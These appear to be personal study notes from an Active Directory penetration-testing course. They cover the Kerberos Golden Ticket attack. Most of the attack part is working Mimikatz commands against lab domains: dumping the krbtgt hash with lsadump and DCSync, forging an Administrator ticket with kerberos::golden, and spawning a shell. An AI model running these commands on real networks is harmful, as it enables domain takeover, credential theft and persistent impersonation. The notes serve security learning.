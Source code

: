 <center><h2>Golden Ticket Attack</h2></center>

So the main vulnerable trust was at the point

Now KDC decrypts the hash because it has password of krbtgt and *if KDC can decrypt that then whatever is inside that is true*

So with this we can also create golden ticket.

![[2022-02-10 17_51_29-09-DomainPersistence-Part1.mp4 - VLC media player.png]]

- A golden ticket is signed and encrypted by the hash of krbtgt account which makes it a valid TGT ticket.
	- *If we can forge a TGT and present it to DC then it will see it as a vaild ticket*
	- Only validation is *if DC can decrypt the TGT*
- Si nce user account validation is nott done by Domain Controller (KDC service) until TGT is older than 20 min, we can use even delete/revoked accounts
- *The krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine*.
- Password change has no effect on this attack


**So we need access to krbtgt account so that we can forge TGT ticket and send it to DC for Golden Ticket.**

```powershell
# Execute Mimikatz on DC to get krbtgt hash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName dcorp-dc

# On any machine
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /krbtgt:<ntlm_hash> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

<center><b>Command</b></center>
![[2022-02-10 18_56_09-09-DomainPersistence-Part1.mp4 - VLC media player.png]]

![[2022-02-10 18_58_12-09-DomainPersistence-Part1.mp4 - VLC media player.png]]


- To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges:
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain_name>\krbtgt"'
```
*Extract krbtgt hash from the DC using DCSync*

- Using DCDync option needs no code execution (no need to run Invoke-Mimikatz) on the target DC.


<center><h2>Golden Ticket from mimikatz</h2></center>
Check for the privileges 
`Privilege '20' OK`

Command used:
```powershell
privilege::debug
```

Now we dump the krbtgt hash

```powershell
lsadump::lsa /inject /name:krbtgt 
```

![[mimikatz golden ticket.png]]
*Highlighted boxes thigs you need*

**Now Create a golden ticket**

Command:
```powershell
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500 
```

**Now you have sucessfully created golden ticket**

Command:
```powershell
# Gives you new command prompt
misc::cmd
```
